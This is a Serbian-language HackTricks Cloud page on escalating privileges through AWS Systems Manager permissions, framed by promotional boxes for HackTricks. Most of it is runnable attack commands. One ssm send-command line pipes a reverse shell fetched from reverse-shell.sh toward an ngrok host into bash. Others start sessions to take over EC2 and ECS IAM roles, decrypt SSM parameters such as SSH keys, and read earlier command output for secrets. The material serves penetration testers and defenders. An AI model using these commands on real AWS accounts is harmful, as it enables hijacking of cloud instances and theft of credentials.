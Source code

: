 # AWS - SSM Privesc

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## SSM

Za više informacija o SSM-u proverite:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Napadač sa dozvolom **`ssm:SendCommand`** može **izvršavati komande na instancama** koje pokreću Amazon SSM Agent i **ugroziti IAM Role** koji se izvršava unutar njega.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencijalni uticaj:** Direktno povećanje privilegija za EC2 IAM uloge koje su povezane sa pokrenutim instancama sa pokrenutim SSM agentima.

### `ssm:StartSession`

Napadač sa dozvolom **`ssm:StartSession`** može **pokrenuti sesiju sličnu SSH-u na instancama** koje pokreću Amazon SSM Agenti i **ugroziti IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Da biste započeli sesiju, potrebno je da imate instaliran **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencijalni uticaj:** Direktno povećanje privilegija do EC2 IAM uloga povezanih sa pokrenutim instancama sa pokrenutim SSM agentima.

#### Povećanje privilegija do ECS

Kada **ECS zadaci** pokreću se sa omogućenom opcijom **`ExecuteCommand`**, korisnici sa dovoljnim ovlašćenjima mogu koristiti `ecs execute-command` da **izvrše komandu** unutar kontejnera.\
Prema [**dokumentaciji**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), ovo se postiže stvaranjem sigurnog kanala između uređaja koji koristite za pokretanje "exec" komande i ciljnog kontejnera sa SSM Session Managerom.\
Stoga, korisnici sa `ssm:StartSession` će moći da **dobiju shell unutar ECS zadataka** sa tom opcijom omogućenom samo pokretanjem:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**Potencijalni uticaj:** Direktno povećanje privilegija na `ECS` IAM ulogama koje su povezane sa pokrenutim zadacima sa omogućenom opcijom `ExecuteCommand`.

### `ssm:ResumeSession`

Napadač sa dozvolom **`ssm:ResumeSession`** može ponovo pokrenuti SSH sličnu sesiju na instancama koje pokreću Amazon SSM Agent sa prekinutim stanjem SSM sesije i kompromitovati IAM ulogu koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencijalni uticaj:** Direktno povećanje privilegija za EC2 IAM uloge koje su povezane sa pokrenutim instancama sa pokrenutim SSM agentima i prekinutim sesijama.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Napadač sa navedenim dozvolama će moći da izlistava **SSM parametre** i **čita ih u čistom tekstu**. U ovim parametrima često možete **pronaći osetljive informacije** kao što su SSH ključevi ili API ključevi.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar parametara.

### `ssm:ListCommands`

Napadač sa ovlašćenjem može da izlistava sve **komande** poslate i, nadamo se, pronađe **osetljive informacije** u vezi sa njima.
```
aws ssm list-commands
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar komandnih linija.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Napadač sa ovim dozvolama može da izlistava sve **komande** poslate i **čita izlaz** koji je generisan, sa nadom da će pronaći **osetljive informacije** u njima.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar izlaza komandnih linija.

### Codebuild

Možete takođe koristiti SSM da biste se prijavili na codebuild projekat koji se gradi:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
